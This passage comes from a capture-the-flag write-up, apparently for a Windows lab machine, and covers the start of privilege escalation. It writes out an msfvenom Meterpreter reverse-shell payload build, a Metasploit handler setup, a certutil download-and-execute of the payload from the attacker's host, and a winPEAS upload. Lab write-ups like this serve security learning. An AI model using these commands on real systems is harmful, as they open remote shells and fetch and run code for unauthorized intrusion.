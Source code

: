 From here I start some manual enumeration and find I have access to the C:\User\Public\ and find user.txt in there. Sweet!

Time to work on the Privesc.

I start by creating a tmp folder and upload a meterpreter payload for more functionality.   
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.17.215 LPORT=9006 -f exe -o meter.exe`

I also opened msfconsole to receive the meterpreter shell.

```bash
msf5 > use multi/handler
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.10.17.215
LHOST => 10.10.17.215
msf5 exploit(multi/handler) > set LPORT 9006
LPORT => 9006
msf5 exploit(multi/handler) > run -j
[*] Exploit running as background job 7.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.17.215:9006 
```

I then uploaded it with `certutil -urlcache -split -f http://10.10.17.215:9000/meter.exe meter.exe` into the tmp directory and executed the payload.

From here I upload winPEASx64.exe to start enumeration.
```bash
meterpreter > upload winPEASx64.exe
[*] uploading  : winPEASx64.exe -> winPEASx64.exe
[*] Uploaded 223.00 KiB of 223.00 KiB (100.0%): winPEASx64.exe -> winPEASx64.exe
[*] uploaded   : winPEASx64.exe -> winPEASx64.exe
meterpreter > 
```

This is a tool for finding privesc paths on the system. It also highlights higher priority targets. 
